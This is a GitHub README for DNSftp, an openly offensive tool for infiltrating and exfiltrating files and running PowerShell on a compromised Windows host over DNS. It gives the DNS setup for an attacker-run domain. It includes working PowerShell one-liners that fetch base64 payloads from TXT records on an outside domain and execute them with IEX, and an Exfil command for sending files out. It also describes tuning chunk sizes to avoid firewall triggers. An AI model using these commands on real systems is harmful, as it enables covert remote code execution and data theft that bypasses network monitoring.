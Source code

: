 # DNSftp
Ever found yourself in a position that you have access to system but can't copy files over, copy files from and in general your live is miserable but you do actually have DNS out of bound? DNSftp is a tool to help exfiltrate/infiltrate files over DNS or even run powershell snippets directly, all over DNS. The script has been tested with python 2.

## How it works
The server either cuts a file into base64 pieces and serves it as the response to a TXT request in the case of infiltration. In the case of exfiltration the server reassembles base64 pieces that come in as a request for a subdomain. Moreover, base64 piece length has been adjusted because certain firewalls have triggers for response lengths of 100 characters in TXT records. 

## What do I need
For the server to work, you have to have an authoritative a domain of your own, let's assume `mydomain.com`. Then, you need a subdomain `ns1` that will act as the authoritative dns for another subdomain `dnsops`. The configuration looks like the following:

|Host   |Record Type |Value              |
|-------|------------|-------------------|
|dnsops |NS Record   |ns1.mydomain.com   |
|ns1    |A Record    |123.123.123.123    |

After the above configuration is complete on your domain provider's nameservers, you simply have to run the script on `ns1` host and let it act as the DNS server. (Obviously you have to leave port 53 UDP accessible over the internet).

```
python DNSftp.py -f filetohost.ext
```

Hosting a directory is still an experiment so go with -f and specify the file you want to host. Then all you have to do is go the windows host and type the following in a powershell command prompt. 

Note that `qqq` in the commands below has to be changed between file operations in order to bypass caching. 

* ### Infiltration case1
If you want to directly run a powershell file hosted by the server (date.ps1 provided as a quick test):

```
For($x=0;$x -ge 0;$x++){$y=Resolve-DnsName "$x.qqq.infil.dnsops.mydomain.com" -Type TXT|Select -ExpandProperty Strings;If($y -eq "EOF"){break}$z+=$y}[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($z))|IEX
```

* ### Infiltration case2 
If you want to download the file locally on the windows system:
```
For($x=0;$x -ge 0;$x++){$y=Resolve-DnsName "$x.qqq.infil.dnsops.mydomain.com" -Type TXT|Select -ExpandProperty Strings;If($y -eq "EOF"){break}$z+=$y}[System.Convert]::FromBase64String($z)|Set-Content -Encoding Byte .\date.ps1
```

* ### Exfiltration case 
If you want to exfiltrate a file over DNS, there is nothing that needs to be changed on the server, however, you have to import the included `exfil.ps1` on your host (by using the methods above to transfer it) and then: 
```
Exfil C:\folder\folder\file.extension
```

I hope this proves to be helpful for you as it has been for me. I do know the code is quick and dirty but oh well, what can you do. Usually time of the essence and I just can't be bothered with making it look good. Use at your own risk, can't stress that enough! xD